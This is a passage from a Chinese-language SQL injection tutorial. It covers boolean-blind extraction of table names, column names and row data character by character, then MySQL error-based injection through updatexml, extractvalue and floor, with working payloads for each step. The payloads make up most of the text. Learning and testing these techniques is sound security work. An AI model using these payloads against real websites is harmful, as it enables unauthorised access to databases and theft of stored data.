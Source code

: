 **4、判断数据库表名**

```sql
' and substr((select table_name from information_schema.tables where table_schema='数据库名' limit 0,1),1,1)='a'--+

--修改1,1前边的1~20，逐字符猜解出第一个表的名
--修改limit的0,1前边的0~20，逐个猜解每个表
```

**5、判断数据库字段名**

```sql
' and substr((select column_name from information_schema.columns where table_schema='数据库名' and table_name='表名' limit 0,1),1,1)='a'--+

--修改1,1前边的1~20，逐字符猜解出第一个字段的名
--修改limit的0,1前边的0~20，逐个猜解每个字段
```

**6、取数据**

```sql
' and substr((select 字段名 from 表名 limit 0,1),1,1)='a'--+
```

当然如果嫌用Burp慢的话，可以自己编写脚本，修改payload就行了

一般盲注的话都是自己写脚本比较快。

## 报错注入

在SQL注入攻击过程中，服务器开启了错误回显，页面会返回错误信息，利用报错函数获取数据库数据。

常用的MySQL报错函数

```sql
--xpath语法错误
extractvalue()	--查询节点内容
updatexml()		--修改查询到的内容
它们的第二个参数都要求是符合xpath语法的字符串
如果不满足要求则会报错，并且将查询结果放在报错信息里

--主键重复（duplicate entry）
floor()			--返回小于等于该值的最大整数
只要是count，rand()，group by 三个连用就会造成这种主键重复报错
```

**1、尝试用单引号报错**

**2、获取数据库名**

```sql
' and updatexml(1,concat(0x7e,(select database()),0x7e),1)--+


--0x7e是"~"符号的16进制，在这作为分隔符
```
